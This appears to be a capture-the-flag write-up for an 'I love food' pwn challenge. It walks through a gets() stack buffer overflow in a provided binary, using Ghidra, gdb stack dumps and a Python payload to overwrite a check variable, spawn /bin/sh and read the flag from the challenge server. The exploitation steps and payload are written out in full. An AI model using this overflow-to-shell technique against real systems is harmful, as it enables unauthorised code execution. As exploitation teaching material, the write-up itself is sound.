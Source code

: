 # I love food !

Subject :

```md
I made a program to know more about the tastes of the players, what's your favorite food ? :)

http://internetcest.fun:13338
```

We've been given [this binary](./i_love_food). Let's try it out :

```console
$ ./i_love_food 
What is your favorite dish ? 
test
Interesting... Mine is DEADBEEF :) 
```

The program is asking for an input, and exiting. Let's explore the code.

## Static analysis

Using ghidra we can find those functions :

```C
undefined8 main(void)
{
  setup();
  vuln();
  return 0;
}

void vuln(void)
{
  char local_38 [44];
  uint local_c;
  
  local_c = 0xdeadbeef;
  puts("What is your favorite dish ? ");
  gets(local_38);
  if (local_c == 0xf00df00d) {
    puts("Damn that\'s a good one !");
    system("/bin/sh");
  }
  else {
    printf("Interesting... Mine is %X :)",(ulong)local_c);
  }
  return;
}
```

We want to execute the command `system("/bin/sh");` in the vuln() function to get a shell. To do so we'll need to pass this condition : `if (local_c == 0xf00df00d)`.  
  
To achieve this, we'll modify the local_c variable by exploiting the gets() function which is vulnerable to a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow).

## Dynamic analysis

Let's find out how many bytes we need to send to modify local_c using gdb.  
  
First, we'll add a breakpoint (gdb will stop everytime the program reaches this instruction) after the gets() function is called. To do so, we'll disassemble the vuln() function and look for the instruction calling gets() :

```gdb
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x0000000000001194 <+0>:	push   %rbp
   0x0000000000001195 <+1>:	mov    %rsp,%rbp
   0x0000000000001198 <+4>:	sub    $0x30,%rsp
   0x000000000000119c <+8>:	movl   $0xdeadbeef,-0x4(%rbp)
   0x00000000000011a3 <+15>:	lea    0xe5a(%rip),%rax        # 0x2004
   0x00000000000011aa <+22>:	mov    %rax,%rdi
   0x00000000000011ad <+25>:	call   0x1030 <puts@plt>
   0x00000000000011b2 <+30>:	lea    -0x30(%rbp),%rax
   0x00000000000011b6 <+34>:	mov    %rax,%rdi
   0x00000000000011b9 <+37>:	mov    $0x0,%eax
   0x00000000000011be <+42>:	call   0x1070 <gets@plt>
   0x00000000000011c3 <+47>:	cmpl   $0xf00df00d,-0x4(%rbp)
   0x00000000000011ca <+54>:	jne    0x11ec <vuln+88>
   0x00000000000011cc <+56>:	lea    0xe4f(%rip),%rax        # 0x2022
   0x00000000000011d3 <+63>:	mov    %rax,%rdi
   0x00000000000011d6 <+66>:	call   0x1030 <puts@plt>
   0x00000000000011db <+71>:	lea    0xe59(%rip),%rax        # 0x203b
   0x00000000000011e2 <+78>:	mov    %rax,%rdi
   0x00000000000011e5 <+81>:	call   0x1050 <system@plt>
   0x00000000000011ea <+86>:	jmp    0x1205 <vuln+113>
   0x00000000000011ec <+88>:	mov    -0x4(%rbp),%eax
   0x00000000000011ef <+91>:	mov    %eax,%esi
   0x00000000000011f1 <+93>:	lea    0xe4b(%rip),%rax        # 0x2043
   0x00000000000011f8 <+100>:	mov    %rax,%rdi
   0x00000000000011fb <+103>:	mov    $0x0,%eax
   0x0000000000001200 <+108>:	call   0x1060 <printf@plt>
   0x0000000000001205 <+113>:	nop
   0x0000000000001206 <+114>:	leave
   0x0000000000001207 <+115>:	ret
End of assembler dump.
(gdb) break *vuln+47
Breakpoint 1 at 0x11c3
```

According to our static analysis, the variable used to store the user input is of 44 bytes : `char local_38 [44];`. Let's fill this variable by using python to send 44 characters (we'll use "\x41" which is an `A` in ascii), and then inspect the stack to see how many bytes we need to send before writing over local_c :

```gdb
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44)')
Starting program: /home/coucou/Documents/I_love_food/i_love_food <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What is your favorite dish ? 

Breakpoint 1, 0x00005555555551c3 in vuln ()
(gdb) x/20wx $rsp
0x7fffffffda20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda40:	0x41414141	0x41414141	0x41414141	0xdeadbe00
0x7fffffffda50:	0xffffda70	0x00007fff	0x5555522b	0x00005555
0x7fffffffda60:	0xffffdb88	0x00007fff	0x00000000	0x00000001
```

The rsp (Register Stack Pointer) is a register that points to the top of the current stack. So by using the `x/20wx $rsp` instruction, we can inspect the current stack.  
In the stack, we can easily spot the 44 "\x41" we gave to the program, and we can see a 0xdeadbe00 value right next to it. During our static analysis, we found `local_c = 0xdeadbeef;`, which means that the local_c variable is stored right after the user input. Let's write over it by adding "\x0d\xf0\x0d\xf0" after our previous input (being on a [little endian system](https://en.wikipedia.org/wiki/Endianness) we write over memory in reverse) :

```gdb
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")')
Starting program: /home/coucou/Documents/I_love_food/i_love_food <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What is your favorite dish ? 

Breakpoint 1, 0x00005555555551c3 in vuln ()
```

Now let's inspect the stack :

```gdb
(gdb) x/20wx $rsp
0x7fffffffda20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda40:	0x41414141	0x41414141	0x41414141	0xf00df00d
0x7fffffffda50:	0xffffda00	0x00007fff	0x5555522b	0x00005555
0x7fffffffda60:	0xffffdb88	0x00007fff	0x00000000	0x00000001
```

We can see that the local_c variable has been modified. Let's resume execution and see what happens :

```gdb
(gdb) continue
Continuing.
Damn that's a good one !
[Detaching after vfork from child process 4655]

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
```

The program does reach the success message and open another process.  
  
Let's test our payload on the binary using the intruction `(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")' ; tee)` to send our payload, and then freeze the shell before it closes :

```console
$ (python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")' ; tee) | ./i_love_food  
What is your favorite dish ? 

Damn that's a good one !
whoami
coucou
ls
exploit.py  i_love_food  README.md
```

We've successfully opened a shell, so the final payload is : `"\x41"*44+"\x0d\xf0\x0d\xf0"`.

## Exploit

Now let's connect to the service and send our payload. To do so, we'll use [this script](./exploit.py) :

```console
$ python3 exploit.py                                                                              
b"What is your favorite dish ? \nDamn that's a good one !\n"
whoami
b'root\n'
ls
b'flag.txt\ni_love_food\ni_love_food.c\n'
cat flag.txt
b'FLAG{I_JU5T_L1K3_F00D!!}\n'
```
